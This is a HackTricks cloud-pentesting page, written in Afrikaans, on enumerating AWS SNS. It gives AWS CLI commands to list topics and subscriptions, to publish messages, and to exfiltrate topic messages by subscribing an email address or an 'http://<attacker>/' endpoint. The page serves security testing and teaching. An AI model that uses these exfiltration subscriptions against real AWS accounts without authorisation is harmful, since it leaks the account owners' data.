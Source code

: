 # AWS - SNS Enum

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) word beskryf as 'n **volledig bestuurde boodskapdiens**. Dit ondersteun beide **toepassing-naar-toepassing** (A2A) en **toepassing-naar-persoon** (A2P) kommunikasietipes.

Belangrike kenmerke vir A2A kommunikasie sluit **publiseer/teken in (pub/sub) meganismes** in. Hierdie meganismes stel **onderwerpe** bekend, wat noodsaaklik is om hoë-deurset, **druk-gebaseerde, baie-naar-baie boodskappe** moontlik te maak. Hierdie kenmerk is baie voordelig in scenario's wat gedistribueerde stelsels, mikrodiens, en gebeurtenis-gedrewe serverless argitektuur insluit. Deur hierdie onderwerpe te benut, kan publiseer stelsels boodskappe doeltreffend versprei na 'n **wye reeks van tekenaar stelsels**, wat 'n fanout boodskappatroon fasiliteer.

### **Verskil met SQS**

**SQS** is 'n **ry-gebaseerde** diens wat punt-tot-punt kommunikasie toelaat, wat verseker dat boodskappe deur 'n **enkele verbruiker** verwerk word. Dit bied **ten minste-een keer aflewering**, ondersteun standaard en FIFO rye, en laat boodskapbehoud toe vir herhalings en vertraagde verwerking.\
Aan die ander kant is **SNS** 'n **publiseer/teken in-gebaseerde diens**, wat **een-naar-baie** kommunikasie moontlik maak deur boodskappe gelyktydig na **meerdere tekenaars** te versprei. Dit ondersteun **verskeie subskripsie eindpunte soos e-pos, SMS, Lambda funksies, en HTTP/HTTPS**, en bied filtrasie meganismes vir geteikende boodskapaflewering.\
Terwyl beide dienste ontkoppeling tussen komponente in gedistribueerde stelsels moontlik maak, fokus SQS op gequeue kommunikasie, en SNS beklemtoon gebeurtenis-gedrewe, fan-out kommunikasiepatrone.

### **Enumerasie**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Let daarop dat as die **onderwerp van tipe FIFO is**, slegs intekenaars wat die protokol **SQS** gebruik, gebruik kan word (HTTP of HTTPS kan nie gebruik word nie).

Ook, selfs al bevat die `--topic-arn` die streek, maak seker dat jy die korrekte streek in **`--region`** spesifiseer of jy sal 'n fout kry wat lyk asof dit aandui dat jy nie toegang het nie, maar die probleem is die streek.
{% endhint %}

#### Ongeauthentiseerde Toegang

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Privilege Escalation

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Post Exploitation

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Persistensie

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Verwysings

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**intekenplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
